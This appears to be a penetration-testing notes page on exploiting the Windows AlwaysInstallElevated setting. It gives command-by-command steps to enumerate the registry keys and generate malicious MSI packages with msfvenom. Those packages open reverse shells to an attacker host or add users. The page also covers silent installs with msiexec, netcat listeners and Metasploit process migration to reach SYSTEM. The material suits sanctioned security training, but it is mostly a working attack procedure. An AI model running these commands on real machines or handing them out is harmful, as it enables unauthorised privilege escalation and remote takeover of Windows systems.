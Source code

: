 # AlwaysInstallElevated Exploitation

## Target requirements

- The target needs to have those values in the registry: 
  - In `Computer\HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
  - In `Computer\HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer` with the AlwaysInstallElevated set to 1
This means that installation packages are installed with elevated privileges 

### Enumerate with cmd

- Type `reg query HKLM\Software\Policies\Microsoft\Windows\Installer` in a cmd prompt should be set to 1
- Type `reg query HKCU\Software\Policies\Microsoft\Windows\Installer` should be one as well  
![image](https://user-images.githubusercontent.com/96747355/162576171-430c4e05-d1be-42c4-a840-d844a87cb99e.png)  

## Exploitation

- You should have a shell with covenant, metasploit or netcat or an access to the target.  
We will use Covenant and Metasploit here.

### Covenant

#### Enumerate with SharpUp audit

- In your shell type `SharpUp audit`
- In the results you should see this:
  ```
  === AlwaysInstallElevated Registry Keys ===

    HKLM:    1
    HKCU:    1
  ```

#### Enumerate with powerup

- In the shell we will type PowerShellImport, type enter and fetch PoweUp.ps1 (if you do not have it you can get it [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) )  
- Click on execute
- Type `powershell invoke-allchecks` in your shell
- We should see this
  ```
  [*] Checking for AlwaysInstallElevated registry key...
  AbuseFunction : Write-UserAddMSI

  ```

#### Exploitation

- generate a payload with msfvenom `msfvenom -p windows/exec CMD="" -f msi -o exploitalwaysinstalled.msi` between the quotes copy and paste an encoded launcher.
- Upload your file in the target using Upload command from covenant (type `Upload` and enter, file the file path for the target and browse to the file in your attack machine)
- run it using `shell msiexec /quiet /qn /i exploitalwaysinstalled.msi
- We should get a prompt for another reverse shell in our grunts as an elevated user
  ```
  > whoami
  NT AUTHORITY\SYSTEM
  ```

#### Exploitation with powerup

- `powershell -ep bypass`
- `. .\PowerUp.ps1`
- `Write-UserAddMSI`
- It will set up a malicious MSI called `UserAdd`
- And we will be able to add a user  
![image](https://user-images.githubusercontent.com/96747355/162576431-66e49563-26cd-45fc-a673-63e9f0a42561.png)
- Our user has been added  
![image](https://user-images.githubusercontent.com/96747355/162576458-7498d8e5-bfc7-4dba-9b5c-9a73ac869622.png)  


### Metasploit

- Interact with a session you should already have from initial foothold `sessions -i num-of-session`

#### Enumerate

- Launch `run post/multi/recon/local_exploit_suggester`
- You should see: `- exploit/windows/local/always_install_elevated: The target is vulnerable.`

#### Exploitation

- Background your session with ctrl z
- Type `use exploit/windows/local/always_install_elevated`
- set session to the number of the session you have on your target 
- type `exploit -j`
- list the sessions you should have another one running as authority system
- type ps and look for a process under session 1 so that we can migrate to it 
- We can use winlogon.exe ` 620   520   winlogon.exe                 x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe`
- Migrate to it using `migrate PID-number` in our example it is going to be `migrate 520`  

**OR**  

- `msfconsole`
- `use multi/handler`
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost your-Kali-IP`
- `run`
- In another console tab `msfvenom -p windows/meterpreter/reverse_tcp lhost=Your-Kali-IP -f msi -o setup.msi`
- Get the generated msi in your target (python server -> browser from target)
- In your target Place `setup.msi` in a folder where you have write access
- Open command prompt and type: `msiexec /quiet /qn /i C:\Folder\you\chose\setup.msi`
- You should get an elevated shell in msfconsole  
![image](https://user-images.githubusercontent.com/96747355/162576948-dfc37754-0345-408f-a344-5248975f34b8.png)  

### Other way

- Generate a malicious MSI package `msfvenom -p windows/shell_reverse_tcp lhost=IP-OF-ATTACK-MACHINE lport=PORT -f msi > file.msi`
- Set up a listener `rlwrap nc -lnvp CHOSEN-PORT`
- Upload it to the target and execute it from the cmd `msiexec /i c:\users\user\desktop\file.msi /quiet /qn /norestart`
- You should get an elevated shell

## Resources

{% embed url="https://academy.tcm-sec.com/p/movement-pivoting-and-persistence-for-pentesters-and-ethical-hackers" %} TCM security Academy -  Movement pivoting and persistence for pentesters and ethical hacker {% endembed %}

